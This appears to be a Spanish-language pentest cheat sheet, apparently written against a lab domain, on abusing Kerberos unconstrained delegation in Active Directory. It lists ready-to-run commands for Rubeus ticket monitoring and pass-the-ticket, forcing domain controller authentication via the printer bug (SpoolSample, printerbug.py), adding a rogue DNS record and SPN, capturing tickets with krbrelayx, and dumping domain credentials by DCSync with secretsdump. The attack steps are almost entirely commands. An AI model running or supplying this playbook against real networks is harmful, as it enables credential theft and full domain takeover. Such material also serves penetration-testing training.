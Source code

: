 # Sobre computadoras

## Esperando la autenticación de un usuario privilegiado

Si logramos comprometer un servidor que tiene habilitada la Unconstrained delegation, y posteriormente un administrador de dominio inicia sesión, podremos extraer su TGT y usarlo para movernos lateralmente y comprometer otras máquinas, incluidos los controladores de dominio.

Rubeus es la herramienta ideal para este ataque. Como administrador local, Rubeus puede ejecutarse para supervisar los tickets almacenados. Si se encuentra un TGT en un ticket TGS, Rubeus nos lo mostrará.

### 1)Monitoreo de tickets
Ponemos a Rubeus en modo monitoreo esperando que los usuarios se conecten al servidor.

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Usamos el ticket para pediro otro ticket con otro servicio


    .\Rubeus.exe asktgs /ticket:<ticket> /service:<servicio>/dc01.INLANEFREIGHT.local /ptt

Si esto no funciona:

    .\Rubeus.exe renew /ticket:<ticket> /ptt

Ahora podemos aprovechar este ticket para realizar acciones en el dc01 como el usuario privilegiado.

## Aprovechando el error de impresora


Es muy similar a la anterior, simplemente que aprovechamos una falla en el MS-RPRN (Print system remote protocol) que puede obligar a un servidor a autenticarse frente a otro


Para esto utilizaremos la herramienta: **SpoolSample**:

    https://github.com/leechristensen/SpoolSample

### 1) Ponemos el rubeus en modo monitor:

    .\Rubeus.exe monitor /interval:5 /nowrap

### 2) Corremos SpoolSample

    .\SpoolSample.exe <target> <our_server>

### 3) Conseguimos el ticket y continuamos con el ataque anterior.

Si el ticket es del DC, una vez importado, lo renovamos y con mimikatz podemos realizar un DCSync ;)



# Sobre los usuarios

En el caso de los usuarios, necesitaremos tener control del user y permisos de **GenericWrite**, **WriteSPN** o **WriteProperty** sobre el atributo **ServicePrincipalName**.

El ataque consiste en crear un servicio a nombre del usuario con Unconstrained Delegations para que este herede dichos privilegios, de esta manera, los usuarios o computadoras que  se conecnten a este servicio entregarán su ticket.

### 1) Creamos un DNS Falso

En la máquina atacante creamos un DNS falso:

    python dnstool.py -u dominio\\usuario -p contraseña -r roguecomputer.inlanefreight.local -d 10.10.14.2 --action add 10.129.1.207
### Agregamos un SPN falso al usuario vulnerable para que comparta un servicio en el DNS falso

De esta manera el servicio heredará sus privilegios de delegación

    python addspn.py -u dominio\\usuario -p contraseña --target-type samname -t sqldev -s CIFS/roguecomputer.inlanefreight.local dc01.inlanefreight.local

### 3) Ponemos a capturar los tickets

    sudo python krbrelayx.py -hashes :<hash_de_sqldev>

### 4) Forzamos al DC o a otro user a autenticarse contra el DNS falso

    python3 printerbug.py dominio/usuario:contraseña@IP_DC roguecomputer.inlanefreight.local
### 5) Con el ticket del DC hacemos DCSync

    export KRB5CCNAME=./DC01\$@INLANEFREIGHT.LOCAL_krbtgt@INLANEFREIGHT.LOCAL.ccache
    secretsdump.py -k -no-pass dominio/DC01$

